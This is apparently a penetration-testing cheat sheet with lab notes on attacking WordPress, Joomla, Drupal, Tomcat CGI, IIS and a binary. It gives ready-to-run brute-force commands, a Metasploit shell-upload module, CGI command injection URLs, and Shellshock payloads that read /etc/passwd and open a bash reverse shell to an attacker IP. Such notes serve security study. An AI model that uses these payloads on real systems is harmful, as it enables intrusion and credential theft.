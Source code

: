 #

# CMS

## WordPress

To find plugin versions , ex : wp-sitemap-page  
`http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt`

`curl http://blog.inlanefreight.local/?p=1 | grep plugin`  
`curl http://blog.inlanefreight.local | grep plugin`

**wpscan**

The tool uses two kinds of login brute force attacks, `xmlrpc` and `wp-login`.  
The `wp-login` method will attempt to brute force the standard WordPress login page, while the `xmlrpc` method uses WordPress API to make login attempts through /xmlrpc.php.  
***The `xmlrpc` method is preferred as it’s faster.***

```
wpscan --password-attack xmlrpc -t 20 -U john -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

```
wpscan --url http://blog.inlanefreight.local/ --enumerate ap --passwords '/usr/share/wordlists/seclists/Passwords/Default-Credentials/default-passwords.txt' 
```

### Code Execution

```
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

## Joomla

### Enumeration

[droopescan](https://github.com/droope/droopescan), a plugin-based scanner that works for SilverStripe, WordPress, and Drupal with limited functionality for Joomla and Moodle.  

```
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### Brute Force

[joomla-brute.py](https://github.com/ajnik/joomla-bruteforce)
```
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

## Drupal

### Enumeration

```
droopescan scan drupal -u http://drupal.inlanefreight.local
```

## Attacking Tomcat CGI

### Fuzzing Extentions - .CMD

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

### Fuzzing Extentions - .BAT

```
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

### Enumeration - Gobuster

```
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
```

### Exploitation 
```
http://10.129.204.227:8080/cgi/welcome.bat?&set
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

### Confirming the Vulnerability

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

### Exploitation to Reverse Shell Access

```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```


# Miscellaneous Applications

## IIS Tilde Enumeration

### Tilde Enumeration using IIS ShortName Scanner

[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
```
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/
```

### Generate Wordlist

```
egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
```

```
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```


## Attacking Applications Connecting to Services

### ELF Executable Examination

Once the binary is loaded, we set the disassembly-flavor to define the display style of the code, and we proceed with disassembling the main function of the program.  
```
gdb-peda$ gdb ./octopus_checker
gdb-peda$ set disassembly-flavor intel
gdb-peda$ disas main
```
```
b *0x5555555551b0
run
```
